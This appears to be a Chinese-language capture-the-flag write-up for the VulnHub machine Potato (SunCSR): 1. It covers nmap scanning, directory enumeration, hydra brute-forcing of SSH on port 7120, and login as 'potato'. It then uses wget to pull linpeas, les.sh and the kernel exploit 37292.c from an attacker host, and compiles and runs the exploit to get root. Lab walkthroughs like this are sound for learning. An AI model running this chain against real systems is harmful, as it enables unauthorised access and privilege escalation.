


## 复盘*

## 靶机地址：

[Potato (SunCSR): 1 ~ VulnHub](https://www.vulnhub.com/entry/potato-suncsr-1,556/)


## 信息收集


### 准备阶段

创建nmapscan文件夹，用于存放扫描结果

```
mkdir nmapscan
```


### namp扫描

#### 主机探活

```
nmap -sn 192.168.147.0/24
```


确定靶机ip：

192.168.147.134


#### 主机端口扫描

```
sudo nmap -sT --min-rate 10000 -p- 192.168.147.134 -oA nmapscan/ports
```


开放了：

- 80 http服务
- 7120 未知服务


#### 提取端口号

```
ports=$(cat nmapscan/ports.nmap | grep open | awk -F/ '{print $1}' | paste -sd,)
echo $port
```


#### 详细结果扫描

```
sudo nmap -sC -sT -p 80,7120 -sV -O 192.168.147.134 -oA nmapscan/detail
```


分析：

- 80端口
  - http服务，Apache httpd 2.4.7
  - Ubuntu系统
  - http标题为potato
- 7120端口
  - ssh服务
  - OpenSSH 6.6


#### UDP扫描

```
sudo nmap -sU --top-port 20 192.168.147.134 -oA nmapscan/udp
```


无结果


### 80 端口

#### 访问192.168.147.134


只有一个土豆


#### 下载图片

```
wget http://192.168.147.134/potato.jpg
ls
```


#### steghide检测是否有隐写数据

```
sudo steghide info potato.jpg
```


无数据


#### binwalk检测

```
sudo binwalk potato.jpg
```


无数据


#### 查看页面源码


无关键信息


#### dirsearch进行目录扫描

```
sudo dirsearch -u 192.168.147.134
```


只有一个info.php


#### gobuster进行目录扫描

```
sudo gobuster dir -u http://192.168.147.134/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html.js,css
```


同样只有一个info.php


#### 访问info.php


phpinfo界面，php版本为5.5.9


#### 搜索相关漏洞


只有一个

通过修改内存来绕过disable_functions限制


#### 80端口总结

- php版本信息5.5.9
- Ubuntu系统
- 敏感字段信息只有标题tomato
- 此外无上传，注入点


### 7120 端口

#### 提取标题字段制作字典


#### hydra爆破ssh服务

```
hydra -L user.txt -P passwd.txt ssh://192.168.147.134:7120
```




#### 更换密码字典

```
hydra -L user.txt -P /usr/share/john/password.lst ssh://192.168.147.134:7120
```


#### ssh登录

```
ssh potato@192.168.147.134 -p 7120
```


成功


### 提权

#### 尝试sudo提取


提示没有sudo命令


#### 查看用户信息

```
cat /etc/passwd
```


可用的只有root和potato用户


#### 上传linpeas.sh

```
wget 192.168.147.131/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```


无敏感文件


#### 上传les.sh

```
wget 192.168.147.131/les.sh
chmod +x les.sh
./les
```


ubuntu 14.04


#### 搜索相关提权漏洞

```
sudo searchsploit ubuntu 14.04
```


五个可用的exp（可以挨个尝试，我这里时37292.c可用）


#### 上传37292.c

```
wget 192.168.147.131/37292.c
```



#### 编译

```
gcc 37292.c -o 3
```


#### 执行

```
./3
```


#### 得到flag

